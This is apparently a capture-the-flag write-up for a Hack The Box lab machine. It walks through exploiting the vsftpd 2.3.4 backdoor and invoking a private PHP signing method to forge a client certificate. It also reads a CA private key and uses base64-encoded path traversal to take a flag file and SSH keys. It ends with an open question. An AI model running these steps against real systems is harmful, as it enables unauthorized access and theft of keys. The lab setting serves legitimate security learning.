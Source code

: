 ![logo](./logo.png)

# User

After an nmap scan it can be seen that the server is running vsftpd 2.3.4.
This version has a ```:)``` backdoor.

Msfconsole:
```
exploit/unix/ftp/vsftpd_234_backdoor
```

This opens the port ```6200``` to give us:

```
Psy Shell v0.9.9 (PHP 7.2.10 â cli) by Justin Hileman
```

This seems like a debugging cli for PHP

Running ```ls``` on the cli gives us a listing of local variables. It returns:

```
Variables: $tokyo
```

Then running ```show $tokyo``` gives a code listing

```
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```
An important bit off info is the file path ```/home/nairobi/ca.key```

Running private PHP methods:

```
$x = new Tokyo();
$reflector = new ReflectionObject($x);
$method = $reflector->getMethod('sign');
$method->setAccessible(true);

```

This will let us sign and create a user cert

I navigated to the https endpoint and downloaded the CA cert for use in the algo

We also need to make a User CSR **(Certificate Signing Request)**

```
openssl req -nodes -newkey rsa:2048 -keyout user.key -out user.csr -subj "O=La Casa De Papel/CN=lacasadepapel.htb"
```

By running this command:
```
echo $method->invoke($x, "-----BEGIN CERTIFICATE-----
MIIC6jCCAdICCQDISiE8M6B29jANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFs
YWNhc2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0x
OTAxMjcwODM1MzBaFw0yOTAxMjQwODM1MzBaMDcxGjAYBgNVBAMMEWxhY2FzYWRl
cGFwZWwuaHRiMRkwFwYDVQQKDBBMYSBDYXNhIERlIFBhcGVsMIIBIjANBgkqhkiG
9w0BAQEFAAOCAQ8AMIIBCgKCAQEAz3M6VN7OD5sHW+zCbIv/5vJpuaxJF3A5q2rV
QJNqU1sFsbnaPxRbFgAtc8hVeMNii2nCFO8PGGs9P9pvoy8e8DR9ksBQYyXqOZZ8
/rsdxwfjYVgv+a3UbJNO4e9Sd3b8GL+4XIzzSi3EZbl7dlsOhl4+KB4cM4hNhE5B
4K8UKe4wfKS/ekgyCRTRENVqqd3izZzz232yyzFvDGEOFJVzmhlHVypqsfS9rKUV
ESPHczaEQld3kupVrt/mBqwuKe99sluQzORqO1xMqbNgb55ZD66vQBSkN2PwBeiR
PBRNXfnWla3Gkabukpu9xR9o+l7ut13PXdQ/fPflLDwnu5wMZwIDAQABMA0GCSqG
SIb3DQEBCwUAA4IBAQCuo8yzORz4pby9tF1CK/4cZKDYcGT/wpa1v6lmD5CPuS+C
hXXBjK0gPRAPhpF95DO7ilyJbfIc2xIRh1cgX6L0ui/SyxaKHgmEE8ewQea/eKu6
vmgh3JkChYqvVwk7HRWaSaFzOiWMKUU8mB/7L95+mNU7DVVUYB9vaPSqxqfX6ywx
BoJEm7yf7QlJTH3FSzfew1pgMyPxx0cAb5ctjQTLbUj1rcE9PgcSki/j9WyJltkI
EqSngyuJEu3qYGoM0O5gtX13jszgJP+dA3vZ1wqFjKlWs2l89pb/hwRR2raqDwli
MgnURkjwvR1kalXCvx9cST6nCkxF2TxlmRpyNXy4
-----END CERTIFICATE-----
", "-----BEGIN CERTIFICATE REQUEST-----
MIICfDCCAWQCAQAwNzEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDEaMBgGA1UE
AwwRbGFjYXNhZGVwYXBlbC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
AoIBAQCmUq+K7RExpveU8RRcxyzhHRDAhhub7cjBULLU+1frmHPEBxleJ5loqORE
X1mGQdIlN2sksYFcvDNW2n7JExhSwKXw21bhyQdGQYg+7I1Y43IsEOZSf/xlOJRF
6/FnHkXHRZTtJm30HJ6OpApTeVHjrowCganjIYAgotdG3C1gUYU9seu6tNeOil3A
9ta99u3JYRWi884247SgupsurZ2TVheZ6OxoYBaEgFVv4trW6QgB8VJsEOg937Tu
Tb+dTjsZa5EwjuzllUjRTk2veUJE0J+BWdFc9O5oBPhoF+Px8+3CTsKWBiKfRtyG
uq8NTL4MfnjqBEdXvwc+kUpOi0x7AgMBAAGgADANBgkqhkiG9w0BAQsFAAOCAQEA
dxTb62Dn0aBhksH/oJpoNomQlqj7hEsQestu6Za5FREyJJu6AiuYzGnLI89ZvlEv
YMtvTErU60NIvVXZZcrNopXyuiceM8HPvEbIQFaOhh/iz62fNjAddOdIItjgAK5o
EmiyDwgABBAFDHzP5hLZrhQ0YcrkZ0LwuVdsUgYjWo83HJkUtX64nMq+Yhdmvq2n
LYCgyChmMmH66aEYAHWOZPONCTIq4tqmWGr9SPPTAt683OGqwWoxB0oHKkFtR6vu
KfL6K9/P96nYpP4beXMkWZDduGO8V4ELSgAKWoGRtOBf7732H1oUvYeJgIbEEXzt
6POSWQ380THZwsyRm6YyLg==
-----END CERTIFICATE REQUEST-----");
```

It provides us with a signed certificate!

Running:
```
$caKey = file_get_contents('/home/nairobi/ca.key');
```
Will give us the ca.key used to signed the certificate. This will let us turn the signed cert into a pk12 file


Chagning into a pk12 file:
```
openssl pkcs12 -export -inkey ca.key -in signed.crt -out signed.p12
```

Using this cert brings us to a ```PRIVATE AREA``` where we can request files with this URL:

```
https://10.10.10.131/?path=X
```

From error messages we seem to be in:

```
/home/berlin/downloads/home/
```

When downloading files we're directed to a url like so:
```
https://10.10.10.131/file/Li4vZG93bmxvYWRzL1NFQVNPTi0yLzAxLmF2aQ==
```

This is a base64 encoded file path. In theory this should let us encode our own

Below is ```../user.txt``` url:

```
../user.txt
Li4vdXNlci50eHQ=
```

This gives us the user.txt. We can repeat this process with the .ssh keys

Note: ```-n``` option is needed with ```echo``` to make sure there is not trailing newline

Extracting the ssh keys for ```berlin``` doesn't let us login with ssh. This is due to the keys not being in the ```authorized_keys``` file

We can write in ```dali``` home using:

```
$myfile = fopen("/home/dali/test.txt", "w") 
```

This can be used to add the key to the ```authorized_keys```. However, when connecting via ssh the shell is just the PsyShell instance

Is there a way to escape?
